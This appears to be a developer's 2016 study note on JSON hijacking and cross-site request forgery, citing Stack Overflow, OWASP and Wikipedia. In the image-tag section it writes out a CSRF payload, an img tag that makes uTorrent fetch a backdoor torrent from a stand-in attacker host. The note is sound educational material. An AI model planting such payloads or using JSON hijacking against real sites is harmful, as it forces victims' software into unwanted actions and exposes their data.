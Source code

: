 JSON Hijacking
==============

Date of Writing: June 15, 2016
http://stackoverflow.com/questions/2669690/why-does-google-prepend-while1-to-their-json-responses

I don't think this is a problem anymore
http://stackoverflow.com/questions/16289894/is-json-hijacking-still-an-issue-in-modern-browsers/16880162#16880162
(maybe it still is on some older browsers) but when I was going through this
angular tutorial about HTTP
https://angular.io/docs/ts/latest/guide/server-communication.html they
mentioned that the reason their test API returned a JSON object with a "data"
member pointing to a JSON array rather than just returning the array was
because of a "security concern" and they linked to this page:
https://www.owasp.org/index.php/OWASP_AJAX_Security_Guidelines#Always_return_JSON_with_an_Object_on_the_outside

Apparently the issue is as follows:

1. You login into some secure site. That site has a GET endpoint which returns
   some of your sensitive information as json. Maybe that endpoint looks like
   this: http://sensitive.info.com?json=true
2. You visit a malicious site. This malicious site can NOT make AJAX requests
   to http://sensitive.info.com?json=true because of the same origin policy.
   But the same origin policy doesn't apply to `<script>` tags, those tags
   just GET whatever they point to and evaluate the javascript they get back.
   Normally that wouldn't be so bad, the GET request in this example returns
   an array which is evaluated, done. But javascript is apparently extremely
   hackable/configurable. In this instance javascript lets you override the
   global array constructor. So you can configure some javascript code to run
   every time an array value gets set. So they could configure the array
   constructor to store the sensitive information returned from that GET
   request.

IMG tags
--------

I found this article from one of the above links:
https://en.wikipedia.org/wiki/Cross-site_request_forgery

I remember hearing about how images could cause security issues and I think
this could be why. In the example they gave the application uTorrent could be
controlled through GET requests to localhost:8080. So somebody could post an
img tag like this `<img
src="http://localhost:8080/gui/?action=add-url&s=http://evil.example.com/backdoor.torrent">`
in a forum or something. Then if someone visited that forum the img tag would
end up making a GET request. If the user was running that torrent application
then it would start downloading some malicious torrent. Interesting!
